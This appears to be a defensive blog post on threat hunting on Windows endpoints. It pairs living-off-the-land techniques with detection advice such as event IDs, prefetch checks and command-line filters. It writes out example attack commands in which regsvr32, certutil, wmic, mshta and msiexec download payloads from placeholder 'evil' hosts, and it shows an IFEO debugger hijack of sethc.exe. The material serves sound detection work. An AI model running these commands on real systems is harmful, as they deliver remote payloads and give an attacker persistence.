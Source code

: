 ```yaml
---
layout: post
classes: wide
title:  "Threat Hunting in Windows Endpoints - Part 1"
date:   2024-12-07 01:00:00 +0800
--- 
```

This post provides details on threat hunting in the machines running in Windows operating system.  

 
### Introduction
Threat hunting in a Windows environment involves the proactive search for indicators of compromise (IOCs) and other malicious artefacts to detect threats. I have listed some of the hunting techniques in the Windows environment.

### **<u>Application Whitelisting Bypass: regsvr32.exe</u>**

In computing, regsvr32 (Microsoft Register Server) is a command-line utility in Microsoft Windows operating systems for registering and unregistering DLLs and ActiveX controls in the Windows Registry. Adversaries can still use Regsvr32.exe on Windows to download and execute files

`regSvr32 /s /n /u /i:http[:]//evil.php/evil.sct scrobj.dll`

`regsvr32` is invoking scrobj.dll to unregister COM objects defined in the evil.sct. Malicious code will be used in the sct file.
The SCT file ( an XML file) has a registration tag in it that can contain VBScript or JScript code.  The file can have any extension.It does not have to be `.sct`. There will be no artifacts left in registry if this utility is unregistering any COM object.

<u>Detection:</u>
- Look for regsvr32.exe prefetch files and Parsing the prefetch will provide the executed file 
- Command execution and arguments passed to regsvr32.exe using EDR solutions
- Look for suspicious process in the system with parent process as regsvr32
- Hunt for Windows event id 4688 and filter the command arguments with following filter
`regSvr32 /s /n /u /i:http`


Note: Auditing policy for process tracking have to be enabled to trigger 4688 event id and in Advanced Audit Configuration ,
Detailed Tracking have to be enabled for recording process command arguments.

### **<u>Audit log cleared</u>**

Adversaries may clear the Windows audit logs to remove its footpath. Whenver audit logs are cleared , Windows triggers event id 104 or 1102 or 517.Look for these event ids in the machine and start your analysis.

<u>Detection:</u>
- Look for Event IDs 104,1102,517

### **<u>Bypass Authentication</u>**

Image File Execution Options (IFEO) are used for debugging and IFEO settings are stored in the Windows registry. This feature enables the developer to to attach a debugger to the known executables. Malwares exploit this feature for its persistence by adding a debugger to the below executables. whenever the below utilities are triggered, malcious executable will be executed.

`Windows Utilities`:
sethc.exe
magnify.exe
narrator.exe
osk.exe
utilman.exe
displayswitch.exe

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "C:/evil.exe"`

<u>Detection:</u>
  Sweep all the executables under below mentioned registry path  "Image File Execution Options" and look for "debugger" key name.
  
Registry Path:
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe

### **<u>Bypass Proxy using WMIC and Certutil</u>**

WMIC shell is a windows utility that provide command line interface for WMI(Windows Management Instrumentation).This offers various administrative functions to query windows machines to get details such as system settings, process and also to execute scripts. Adversaries use this utility to download malicious payload to evade detections.

`wmic os get /FORMAT:"http://evil/evil[.]xsl"`
XSL script (eXtensible Stylesheet Language). WMI can invoke javascript or VBscript using XSL


Certutil.exe is a command-line program that is installed as part of Certificate Services. You can use Certutil.exe to dump and
display certification authority (CA) configuration information, configure Certificate Services, backup and restore CA components,
and verify certificates, key pairs, and certificate chains.
Adversaries use this utility to download malicious payload to evade detections.

`certutil -urlcache -split -f [http[:]//evil] evil[.]txt`
`certutil -decode evil.txt evil.exe`
 decode option used to decode the disguised certificate.

<u>Detection:</u>
- WMIC.exe and Certutil.exe prefetch files and Parsing the prefetch will provide the downloaded file 
- Command execution and arguments passed to wmic.exe and certutil.exe using EDR solutions
- Look for the HTTP useragents with certutil in the network recorders or the proxy logs
- Look for Windows event id 4688 and search the process command arguments with this utility names as a keyword along with below syntax 
`wmic os get /FORMAT:"http:/"`
- Look for http request for file/page ending with XSL from proxy log or Network recorder

### **<u>HTML Application File - Evade Detection</u>**

HTML Application Files (HTA) files is basically a desktop application which is based on HTML format. HTA dynamics are done via java scripting or VB scripts. Malicious codes can be in HTA formats to evade detections. MSHTA.exe is a Windows utility to execute HTA files. Adversaries use his utilities to execute the malicious HTA files.

`mshta.exe https[:]//evil/evil[.]hta`
`mshta evil[.]hta`

<u>Detection:</u>
- Look for MSHTA.exe prefetch files and Parsing the prefetch will provide the executed file 
- Command execution and arguments passed to mshta.exe using EDR solutions.Look for Java script or cscript arguments passed with MSHTA
- Look for suspicious process in the system with parent process as MSHTA
- Look for Windows event id 4688 and search the process command arguments with this utility names as a keyword along with below syntax 
`mshta.exe http`

### **<u>Malicious download using MSIEXEC.exe</u>**

MSIEXEC.exe is a Windows installer utility to install MSI or MSP packages. Adversaries will use these utilities to download 
and execute malicious MSI files.

`MSIEXEC /j m evil[.]msi`
`msiexec /q /i http[:]//evil[.]msi`

<u>Detection:</u>
- Look for MSIEXEC.exe prefetch files and Parsing the prefetch will provide the executed file
- Command execution and arguments passed to msiexec.exe using EDR solutions
- Look for the HTTP useragents with "Windows Installer" in the network recorders or the proxy logs
- Look for suspicious process in the system with parent process as MSIEXEC
- Look for Windows event id 1040,1042(Application log) . Search this utility names as a keyword under provider or source in the event and filter for keyword with "http://"
- Look for Windows event id 4688 and search the process command arguments with this utility names as a keyword along with below syntax
  `msiexec /q /i http`

### **<u>Embed malicious payload in compiled HTML File</u>**

Compiled HTML File (CHM) are commonly Microsoft help files. These file will be a compiled HTML files that includes documents , image , scripts etc.
Hackers will abuse these files to embed malicious payload with CHM files. CHM files can be executed by HH.exe , which is a Microsoft windows utility.
Adversaries use this techniques to evade AV or application blacklisting techniques.

<u>Detection:</u>
- Look for HH.exe prefetch files and Parsing the prefetch will provide the executed CHM file. 
- Command execution and arguments passed to HH.exe using EDR solutions.
- Suspicious process under the parent process HH.exe
- Look for Windows event id 4688 and search this utility name as a keyword

